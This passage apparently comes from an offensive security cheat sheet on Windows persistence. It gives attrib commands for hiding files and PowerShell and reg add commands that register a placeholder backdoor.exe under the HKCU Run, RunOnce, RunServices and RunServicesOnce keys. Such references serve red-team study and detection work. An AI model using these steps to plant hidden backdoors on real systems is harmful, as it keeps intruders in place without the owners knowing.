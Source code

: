 {% tab title="cmd.exe" %}
Set a file as **Hidden** \(`-h`\).  This can also be used to change other file property flags such as \(`a`\) Archive and \(`r`\) ReadOnly. Flags must be added separately \(`-h -a -r` not `-har`\).

```text
attrib <C:\path\filename> #show the file attributes

attrib +h <C:\path\filename>

#to remove the hidden property
attrib -h <C:\path\filename>
```
{% endtab %}
{% endtabs %}

### Registry - HKCU 

#### Autoruns

{% tabs %}
{% tab title="PowerShell" %}
Create key values in the Autoruns keys in `HKCU:\Software\Microsoft\Windows\CurrentVersion`. **Run** and **RunOnce** keys are run each time a new user logs in. **RunServices** and **RunServicesOnce** are run in the background when the logon dialog box first appears or at this stage of the boot process if there is no logon.

```text
New-ItemProperty -Path HKCU:\Software\Microsoft\Windows\CurrentVersion\Run -PropertyType String -Name <key_name> -Value "<C:\Path\to\backdoor.exe>"
New-ItemProperty -Path HKCU:\Software\Microsoft\Windows\CurrentVersion\RunOnce -PropertyType String -Name <key_name> -Value "<C:\Path\to\backdoor.exe>"
New-ItemProperty -Path HKCU:\Software\Microsoft\Windows\CurrentVersion\RunServices -PropertyType String -Name <key_name> -Value "<C:\Path\to\backdoor.exe>"
New-ItemProperty -Path HKCU:\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce -PropertyType String -Name <key_name> -Value "<C:\Path\to\backdoor.exe>"
```
{% endtab %}

{% tab title="cmd.exe" %}
Create values in the Autoruns keys in `HKCU\Software\Microsoft\Windows\CurrentVersion`. The option `/v` is the name you want, and `/d` is the path to your backdoor.  **Run** and **RunOnce** keys are run each time a new user logs in. **RunServices** and **RunServicesOnce** are run in the background when the logon dialog box first appears or at this stage of the boot process if there is no logon.

```text
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v <name> /t REG_SZ /d "<C:\Path\to\backdoor.exe>"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v <name> /t REG_SZ /d "<C:\Path\to\backdoor.exe>"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices" /v <name> /t REG_SZ /d "<C:\Path\to\backdoor.exe>"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v <name> /t REG_SZ /d "<C:\Path\to\backdoor.exe>"
```
{% endtab %}
{% endtabs %}
